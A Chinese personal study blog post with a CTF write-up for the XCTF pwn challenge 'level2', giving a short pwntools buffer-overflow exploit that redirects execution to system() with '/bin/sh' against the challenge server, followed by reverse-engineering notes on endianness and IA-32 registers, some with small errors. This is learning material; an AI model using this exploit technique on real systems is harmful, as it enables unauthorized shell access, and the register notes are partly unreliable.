 ```yaml
---
title: 7-24
abbrlink: 51850
hidden: true
date: 2020-07-24 15:00:30
---
```


# pwn题：[level2](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5055&page=1)
![UxOJdx.png](https://s1.ax1x.com/2020/07/25/UxOJdx.png)

用ida打开，发现vulnerable()里长这样:   
![UxLKKA.png](https://s1.ax1x.com/2020/07/25/UxLKKA.png)   
考虑可以把函数的返回地址修改为system()的地址，再把参数变为”/bin/sh“   
![UxLMDI.png](https://s1.ax1x.com/2020/07/25/UxLMDI.png)

exp：   
```
p = remote("220.249.52.133", 31379)
a = "1"*0x8c + p32(0x08048320) + p32(0) + p32(0x0804A024)
//或者a = '1' * 0x8c + p32(0x0804845c) + p32(0x0804A024)
p.recv()
p.sendline(a)
p.interactive()
```

还是有些不太懂的地方

# 逆向工程核心原理
## 小端序标记法
字节序是多字节数据在计算机内存中储存或网络传输时各字节的储存顺序，主要分为两类：小端序(little endian)和大端序(big endian)。

### 字节序
采用大端序存储数据时，内存地址低位存储数据的高位，内存地址高位存储数据的低位；采用小端序存储数据时，地址高位存储数据的高位，地址低位存储数据的低位。     
数据为单一字节时无论采用大端序还是小端序保存，字节存储顺序都一样。字符数组在内存中时连续的，向字符数组存放数据，无论采用大端序还是小端序，存储顺序都相同。
#### 大端序和小端序
网络协议中经常采用大端序方式，通过网络传输应用程序使用数据时，往往需要修改字节序。   
小端序采用逆序方式存储数据，使用小端序进行算数运算以及扩展、缩小数据时，效率非常高   

## IA-32寄存器
Intel Architecture 32位   
### 通用寄存器
通用寄存器用于传送和暂存数据，也可参与算术逻辑运算，并保存运算结果。IA-32中每个通用寄存器的大小都是32位，即4个字节，用于保存常量与地址等。   
```
EAX:(0~31)32位
AX:(0~15)EXAX的低16位
AH:(8~15)AX的高8位
AL:(0~7)AX的低8位
```

```
EAX:针对操作数和结果数据的累加器
EBX:DS段中的数据指针基址寄存器
ECX:字符串和循环操作的计数器
EDX:io指针数据寄存器
此外，ECX和EAX也可以用于特殊用途。LOOP命令中，ECX用来循环计数，每执行一次循环，ECX都会减一；EAX一般用在函数返回值中，所有WIN32 API函数都会先把返回值保存到EAX再返回。

以下4个寄存器主要用作保存内存地址的指针
EBP:扩展基址指针寄存器
ESI:源变址寄存器
EDI:目的变址寄存器
ESP:栈指针寄存器

ESP表示栈区域的基地址，函数被调用时保存ESP的值，返回时再把值返回ESP（称为栈帧技术）   
EBP和EDI与特定指令使用，用于内存复制   
```

#### 段寄存器
段是一种内存保护技术。它把内存划分为多个区段，并为每个段赋予起始地址、范围、访问权限等。   
段与分页技术一起用于将虚拟内存变更为实际物理内存。段内存记录在段描述符表中，段寄存器就持有这些段描述符表的索引   

段寄存器总共有6种寄存器：   
```
CS:代码段寄存器        存放应用程序代码所在段的段基址
SS:栈段寄存器          存放栈段的段基址
DS:数据段寄存器        存放数据段的段基址
ES:附加数据段寄存器     存放程序使用的附加数据段的段基址
FS:数据段寄存器        ``
GS:数据段寄存器        ``
```
每个寄存器的大小为16位（2个字节），每个段寄存器指向的段描述符与虚拟内存结合，形成一个线性地址，借助分页技术转换为物理地址   

